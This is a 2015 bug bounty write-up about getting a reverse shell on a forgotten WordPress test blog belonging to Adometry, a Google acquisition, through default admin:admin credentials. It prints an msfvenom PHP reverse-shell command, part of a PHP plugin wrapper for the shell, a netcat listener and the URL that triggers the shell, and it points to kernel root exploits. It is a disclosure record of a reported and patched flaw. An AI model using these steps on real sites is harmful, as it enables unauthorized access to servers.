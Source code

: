```yaml
---
layout: post

title: "Getting a shell on a Google Acquisition"
subtitle: ""
cover_image: google/google.jpg

excerpt: "Forgotten Wordpress blog could be exploited to get Remote command execution on Adometry by Google "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png
facebook:
  sharelink: /2015/07/30/google/

---
```


### TL;DR
Default Wordpress credentials on an old version of the Adometry blog would have allowed an attacker to upload a PHP shell and execute remote commands.

### Google dorking
Instead of studying for the exams last month I tryed to discover some bugs in a Google Acquisition to get my name listed on the **Google Hall of Fame**. The acquisition which I have targeted is **Adometry by Google** a SaaS-based marketing attribution and optimization platform. Looking around on their website I have discovered the company blog located at [http://www.adometry.com/blog/](http://www.adometry.com/blog/) which runs the **latest version of Wordpress**.
Since the bugs are often located in hidden and old pages of the website let's give them a look. A very useful way to discover these pages is Google itself. Using some operands like ``site:`` or ``inurl:`` and combining these with the ``interval of dates filter`` it is possible to discover old pages of a particular website. Let's try it: ``site:adometry.com`` and set the interval of date in the past but not that much. Besides the pages which simply redirect to the main website I have noticed something strange:

<div class="full zoomable">
  <img src="/images/google/blog2013.png">
</div>

### The Wordpress test blog
The first thing that I have noticed was the title of the blog  **Test | Just another WordPress site - Adometry** which contains the magic keyword that every Penetration Tester/Bug Hunter is looking for: **Test** that in many case means vulnerable as hell. The second thing that I have noticed is that the url of this blog [http://www.adometry.com/blog2013/](http://www.adometry.com/blog2013/) is different from the official one that I have discovered before. By inspecting the source code of the page I discovered that the **Wordpress version was the 3.5.1** that has a lot of vulnerabilities like XSS XXE CSRF and maybe a [RCE](https://vagosec.org/2013/12/wordpress-rce-exploit/), but  I am a lazy guy, out there it was very hot, and I would like to go for a swim so I tryed to find an easier way in. I know for sure this was just a testing blog and so what are the **classical credetials** for a testing thing? The default ones and in the case of Wordpress the classical **admin:admin**. Let's give them a shot and here we are:
<div class="full zoomable">
  <img src="/images/google/wordpress.png">
</div>

### Getting a shell
The easiest way to get a shell once you have admin access to a Wordpress blog is to **upload a custom plugin** containing a reverse shell, enable it and visit the page which runs it:

- Create a **php reverse shell** using msfvenom and name the file shell.php:

<code >
msfvenom -p php/meterpreter_reverse_tcp LHOST=Your IP LPORT=Your Port -f raw > shell.php
</code>

- Add comments on the top of the shell.php to **make it a valid plugin** and compress it in zip format
{% highlight php %}
<?php
/*
*     Plugin Name: My Shell
*     Plugin URI: https://github.com/r0rshark/wordpress-shell
*     Description: Execute Commands as the webserver you are serving wordpress with
*     Author: r0rshark
*     Version: 0.2
*     Author URI: https://r0rshark.github.io
*                             */
    $ipaddr='Your IP';
    $port=Your Port;

      @set_time_limit(0); @ignore_user_abort(1); @ini_set('max_execution_time',0);
      $dis=@ini_get('disable_functions');
      ...
      ?>
{% endhighlight %}
- **Upload and enable the plugin** in the Wordpress dashboard
<div class="full zoomable">
  <img src="/images/google/wordpress_plugin.png">
</div>

- **Setup a listener** at your ip and port used in the msfvenom command:

<code >
nc -lvp port
</code>

- **Execute the reverse shell** by visiting www.adometry.com/blog2013/wp-content/plugins/shell/shell.php

<div class="full zoomable">
  <img src="/images/google/shell.png">
</div>

### Maybe getting root
In the previous picture it is possible to see the current kernel version running on that machine which is the **2.6.32**. I think that there are known **public exploits** to get a root shell exploiting vulnerabilities in this kernel version. For example I have tested  [this](https://www.exploit-db.com/exploits/15704/) on a 2.6.31 kernel and since the exploit has been created to work with kernel < 2.6.37 I suppose that it can work as well. Obviously I haven't tried it because I think this would go beyond of the Bug Bounty scope.

- 1 July 2015 Vulnerability reported to the Google Security Team
- 2 July 2015 Vulnerability patched
- 9 July 2015 Got reward of $3133.7





